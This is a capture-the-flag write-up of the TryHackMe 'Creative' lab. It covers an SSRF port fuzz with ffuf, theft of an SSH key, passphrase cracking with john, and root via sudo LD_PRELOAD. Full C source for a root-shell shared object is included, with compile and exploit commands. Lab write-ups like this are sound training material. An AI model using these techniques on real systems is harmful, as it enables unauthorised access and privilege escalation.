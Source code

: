 ```yaml
---
title: THM Creative
author: hanhctf
date: 2024-05-21 12:00:00 +0700
categories: [Write-up, THM]
tags: [SSRF]
toc: true
mermaid: true
---
```


# [**Creative**](https://tryhackme.com/r/room/creative)

# Summary
>
> - 'beta' subdomain
> - SSRF --> LFI 
> - LPE with LD_Preload

## NMAP

```text
Nmap scan report for creative.thm (10.10.204.200)
Host is up (0.40s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

The Nmap scan reveals only two ports: port 22, on which we have SSH, and port 80, a web server with nginx 1.18.0.  
Nothing interesting on the web server.  
Time to enumerate some subdomains `creative.thm`.  
We find the subdomain `beta.creative.thm`.

![](/commons/THM/Creative/0_subdomain.png)  

Open `beta.creative.thm'  

![](/commons/THM/Creative/1_SSRF.png)

This site will test a url. **Command inject**, **SSRF**, **LFI** is first things in my mind.  

After try some simple payload. I found **SSRF**. Check port on `127.0.0.1`

```shell
ffuf -w /opt/SecLists/Fuzzing/5-digits-00000-99999.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```
![](/commons/THM/Creative/2_1337.png)

After enumaration, we got id_rsa file.
![](/commons/THM/Creative/3_id_rsa.png)

Login SSH with this key. It request a passphare. :))  
We will try to use ssh2john to crack passphare of ssh. (Almost in CTF, rockyou.txt is your friend)  

```shell
ssh2john id_rsa > id_rsa.hash
/opt/john/run/john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

***GOT USER.TXT FLAG***


## Privilege Escalation
Login as `saad`, we found creds in .bash_history.
![](/commons/THM/Creative/5_creds.png)

Check `sudo -l`
![](/commons/THM/Creative/6_ping.png)

`/usr/bin/ping` can run as `root` but no command useful.  
`env_keep+=LD_PRELOAD` we found an artic writes about [LPE using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) 

1.Create a `shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

Compile it to generate a shared object with .so extension likewise .dll file in the Windows operating system and hence type following:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so sudo /usr/bin/ping
```

![](/commons/THM/Creative/7_root.png)

***GOT ROOT.TXT FLAG***
